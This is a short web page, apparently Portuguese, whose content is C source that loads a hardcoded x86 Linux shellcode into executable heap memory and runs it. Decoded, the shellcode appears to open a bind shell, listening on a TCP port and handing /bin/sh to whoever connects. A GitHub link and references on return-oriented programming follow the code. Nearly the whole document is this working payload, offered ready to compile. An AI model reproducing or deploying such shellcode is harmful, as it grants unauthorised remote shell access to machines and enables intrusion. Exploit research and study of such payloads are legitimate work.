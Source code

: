  // by: Mharcos Nesster
int (*sc)();
 
char shellcode[] = \
"\x31\xdb\xf7\xe3\xb0\x66\x53\xfe\xc3\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x6a\x66\x58\x5b\x5e\x66\x68"
"\x0d\xf0"
"\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x6a\x66\x58\x01\xdb\x6a\x01\x57\x89\xe1\xcd\x80\x6a"
"\x66\x58\x43\x31\xd2\x52\x52\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31"
"\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
 
int main(int argc, char **argv) {
 
    char *ptr = mmap(0, sizeof(shellcode),
            PROT_EXEC | PROT_WRITE | PROT_READ, MAP_ANON
            | MAP_PRIVATE, -1, 0);
 
    if (ptr == MAP_FAILED) {
        perror("mmap");
        exit(-1);
    }
 
    memcpy(ptr, shellcode, sizeof(shellcode));
    sc = (int(*)())ptr;
 
    (void)((void(*)())ptr)();
    printf("\n");
 
    return 0;
}
{% endhighlight  %}
<p>Github: https://github.com/P0cL4bs/HeapExecShellcode</p>
<pre>
Referências:
https://samsclass.info/127/proj/rop.htm
http://www.intelligentexploit.com/articles/Return-Oriented-Programming-(ROP-FTW).pdf
http://phrack.org/issues/62/5.html
</pre>